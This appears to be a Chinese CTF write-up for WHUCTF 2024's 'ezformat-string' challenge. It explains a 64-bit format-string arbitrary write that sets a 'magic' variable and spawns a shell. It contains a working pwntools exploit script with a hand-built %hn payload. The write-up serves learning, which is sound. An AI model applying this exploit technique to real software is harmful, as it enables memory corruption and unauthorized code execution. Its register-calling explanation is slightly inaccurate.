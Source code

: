 # whuctf2024

by Maple

## ezformat-string

***格式化字符串漏洞实现任意地址写***

查看保护

<img src="./images/image-20250212212038501.png" alt="image-20250212212038501" style="zoom:67%;" />

64位，开启了NX，Canary，但是没有开启PIE，地址还是固定的，接下来看一下源码

<img src="./images/image-20250212211731526.png" alt="image-20250212211731526" style="zoom:67%;" />

可以看到需要我们通过格式化字符串漏洞将`magic`修改为`0x32107654BA98FEDC`，然后`getshell`

如果是32位的话我们可以直接`fmtstr_payload()`函数直接结束这道题目，但是64位程序就需要自己手动构造了

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

magic = 0x00000000004CA2F0
num = 0x32107654ba98fedc

payload = f"%{0x3210}c%18$hn%{0x7654-0x3210}c%19$hn%{0xba98-0x7654}c%20$hn%{0xfedc-0xba98}c%21$hn".encode()
payload = payload.ljust(0x50,b'a')
payload+=p64(magic+6)+p64(magic+4)+p64(magic+2)+p64(magic)
p.sendline(payload)

p.interactive()
```

### 64位格式化字符串构造

1. 先确定偏移

![image-20250212213454833](./images/image-20250212213454833.png)

可以看到这里的在格式化字符串后8个偏移

> **64位格式化字符串的原理：**
>
> - `printf`函数的前六个参数分别存放在`rdi`,`rsi`,`rcx`,`r8`,`r9`寄存器中，按照从右到做的顺序存放在栈中
> - `%n`可以将已经成功输出的字符个数写入对应的整形指针参数所指的变量

这道题中，我们要覆盖的地址为`0x00000000004CA2F0`，数据为`0x32107654BA98FEDC`，相当于

```c
0x4CA2F0	\0xFEDC
0x4CA2F2	\0xBA98
0x4CA2F4	\0x7654
0x4CA2F6	\0x3210
```

所以我们将这些两字节的数字依次写入

> 通过`%xc`输入x个长度的字节，通过`%i$hn`实现将输入的字节数存在第i个参数，减去前面的是为了保证累计输出正确的数值

接下来因为我是将这些数据存在18-21个参数的地址，所以要进行一定的填充，将后面`magic`的地址刚好在第18到21个参数处

我们输入的参数是8，所以填充10个参数，那么应该是`10*8=80=0x50`,一共填充0x50个数据，可以到达第18个参数

接下来就会将这些参数依次写入`magic`的地址里，就可以修改`magic`的指了